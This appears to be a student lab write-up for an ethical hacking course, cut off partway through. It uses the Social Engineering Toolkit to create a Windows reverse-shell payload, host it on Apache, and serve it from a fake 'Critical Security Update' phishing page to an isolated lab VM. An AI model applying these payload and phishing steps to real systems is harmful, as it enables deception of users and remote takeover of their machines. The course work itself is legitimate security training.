 <div style="display: flex; justify-content: space-between; align-items: center;">
  <span style="text-align: left;">Horacio Gonzalez</span>
  <span style="text-align: center;"><strong>SET and Armitage</strong></span>
  <span style="text-align: right;">ICT450 Ethical Hacking</span>
</div>

#### **Overview**
In this lab we show the use of the Social Engineering Toolkit (SET), Metasploit, and Armitage for exploiting a Windows 8.1 machine. The steps include importing the Windows machine into VirtualBox, creating a reverse shell payload, hosting the payload using a phishing webpage, and using Armitage to exploit the system and gain control of the target machine.



#### **1. Environment Setup**
##### **1.1 Import the Windows 8.1 Machine into VirtualBox**
1. Open VirtualBox and navigate to **File** -> **Import Appliance**.
2. Select the `.ova` file for the Windows 8.1 virtual machine.
3. Follow the prompts and ensure the virtual machine is configured to use **Host-Only Adapter**.
4. Start the Windows 8.1 VM and log in with the following password:
   - **Password:** `AggiesR0ck$`

5. Open Windows Defender, go to settings, disable Real Time Protection and Save changes.
5. Open a terminal in Kali Linux and update the system:
   ```bash
   sudo apt update -y && sudo apt full-upgrade -y
    ```
6. Start required services in Kali:
    ```
    sudo systemctl start apache2
    ```
7. Verify the services are running:
    ```
    sudo systemctl status apache2
    ```

#### **2. Using the Social Engineering Toolkit (SET) In Kali**
##### 2.1 Launch SET
1. We will start by launching SET, open a terminal and type:
   ```
   sudo setoolkit
    ```
2. From the SET menu select `1) Social Engineering Attacks` and click enter (just enter the number and enter), then select `4) Create a Payload and Listener`. 

3. Then we will select the payload type, so enter `4) Windows Shell Reverse_TCP x64`    

4. Configure the payload:
   1. LHOST: Enter the IP of your Kali machine `(192.168.56.4)` 
   2. LPORT: `443`
5. Allow SET to generate the payload but `do not` start the listener yet.
6. Leave the terminal as it is and open a new terminal.

#### In a New Terminal
##### 2.2 Host the Payload,
1. Move the payload to the Apache web directory:
    ```
    sudo mv /root/.set/payload.exe /var/www/html/shPayload.exe
    ```
2. Verify the payload is in the correct directory:
    ```
    ls /var/www/html
    ```

##### 2.3 Create a Phishing Webpage
1. Create a fake HTML page to trick users into downloading the payload:
    ```
    echo '<html>
    <head><title>Important Update</title></head>
    <body>
    <h1>Critical Security Update</h1>
    <p>Click the link below to download the update:</p>
    <a href="shPayload.exe">Download Update</a>
    </body>
    </html>' | sudo tee /var/www/html/index.html
    ```
2. Verify the page is correctly saved:
    ```
    cat /var/www/html/index.html
    ```
3. Restart the Apache server to serve the payload and the webpage:
    ```
    sudo systemctl restart apache2
    ```

##### 2.4 Go back to the terminal with the payload we haven't started
1. Go back to the SET terminal and enter `yes` and hit Enter to start the payload listener.
2. SET will now wait for the reverse shell connection.
3. We can open a new terminal and check the ports open with
    ```
    netstat -plnt
    ```
4. Go back to the Metasploit terminal

##### 2.5 Go to the Windows machine
1. Inside the Windows machine open Firefox

